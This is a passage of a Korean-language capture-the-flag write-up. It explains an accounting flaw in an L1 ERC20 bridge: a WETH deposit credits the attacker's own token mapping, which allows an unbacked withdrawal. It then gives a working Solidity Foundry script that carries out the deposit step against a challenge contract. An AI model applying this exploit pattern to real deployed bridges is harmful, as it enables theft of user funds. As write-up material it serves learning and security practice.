 ```

    emit ERC20DepositInitiated(_l1Token, _l2Token, _from, _to, _amount);
}
```
그러나 L1 브리지 컨트랙트의 `_initiateERC20Deposit()` 함수 내에서 _l1Token == weth일 경우, L2_WETH로 브리지 하게 되는데, 이후 자금 추적을 위한 데이터를 업데이트할 때,  _l1Token == weth 조건에 대해서 예외 처리가 있지 않아 L2_WETH로 브리지가 되더라도 실제로는 _l2Token 잔액이 업데이트 된다. 이를 통해서 자체 토큰을 L1 Weth에 예치하고, 자체 토큰의 잔액을 업데이트할 수 있다.

이렇게 되면 L2 -> L1으로 브리지를 할 때, 자체 토큰의 맵핑이 0이 아니기 때문에 Underflow 발생하지 않아 자금을 정상적으로 공격자의 주소로 인출할 수 있다.

---
## Exploit Code

### L1 Exploit

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;
import {Script, console2} from "../lib/forge-std/src/Script.sol";
import {WETH} from "./L1/WETH.sol";
import {Challenge} from "./Challenge.sol";
import {L1ERC20Bridge} from "./L1/L1ERC20Bridge.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract Ex1 is Script{
    Challenge chall;
    L1ERC20Bridge L1ERC20Bri;
    WETH weth;

    address chall_addr = 0x350A48Fff5C5da93b157fCF682F5421b69983a51;
    address ptoken = 0x1faDE8edd7079E4ECD9b22F96FFC3C6d05662090;
    constructor() {
        chall = Challenge(chall_addr);
    }

    function exploit() public payable {
        address L1_ERC20_BRIDGE = chall.BRIDGE();
        address WETH_ADDR = chall.WETH();
        console2.log("WETH ADDR : ", WETH_ADDR);

        L1ERC20Bri = L1ERC20Bridge(L1_ERC20_BRIDGE);
        weth = WETH(payable(WETH_ADDR));

        weth.deposit{value : 2 ether}();
        weth.approve(L1_ERC20_BRIDGE, 2 ether);
        L1ERC20Bri.depositERC20To(address(weth), address(ptoken), address(ptoken), 2 ether);
        //console2.log(IERC20(WETH_ADDR).balanceOf(L1_ERC20_BRIDGE));
    }
}
```
